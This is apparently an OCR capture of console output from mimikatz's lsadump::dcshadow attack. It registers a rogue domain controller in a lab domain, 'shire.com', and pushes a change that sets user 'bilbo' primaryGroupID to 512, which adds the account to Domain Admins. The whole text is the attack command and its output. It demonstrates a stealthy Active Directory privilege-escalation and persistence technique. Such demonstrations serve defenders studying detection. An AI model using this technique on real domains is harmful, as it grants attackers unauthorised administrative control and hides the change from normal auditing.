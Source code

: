 ```

** Objects **

#0: bilbo
DN:CN=Bilbo Baggins,CN=Users,DC=shire,DC=com
  primaryGroupID (1.2.840.113556.1.4.98-90062 rev 1):
    512
    (00020000)


** Starting server **

 > BindString[0]: ncacn_ip_tcp:it001[50495]
 > RPC bind registered
 > RPC Server is waiting!
== Press Control+C to stop ==
  cMaxObjects : 1000
  cMaxBytes   : 0x00a00000
  ulExtendedOp: 0
  pNC->Guid: {acc0aa33-f5eb-4e79-a1d2-b114f483b939}
  pNC->Sid : S-1-5-21-47903322-2936176756-2312637138
  pNC->Name: DC=shire,DC=com
SessionKey: a434763a886784a31835ba50ada0474f446c2cebe1ed8a09f4b379b59b93e56d
1 object(s) pushed
 > RPC bind unregistered
 > stopping RPC server
 > RPC server stopped
```

```
mimikatz # lsadump::dcshadow /push
** Domain Info **

Domain:         DC=shire,DC=com
Configuration:  CN=Configuration,DC=shire,DC=com
Schema:         CN=Schema,CN=Configuration,DC=shire,DC=com
dsServiceName:  ,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=shire,DC=com
domainControllerFunctionality: 7 ( WIN2016 )
highestCommittedUSN: 86111

** Server Info **

Server: HFDC1.shire.com
  InstanceId  : {2021b645-d9c2-416d-9684-182516ad6738}
  InvocationId: {2021b645-d9c2-416d-9684-182516ad6738}
Fake Server (not already registered): it001.shire.com

** Performing Registration **

** Performing Push **

Syncing DC=shire,DC=com
Sync Done

** Performing Unregistration **
```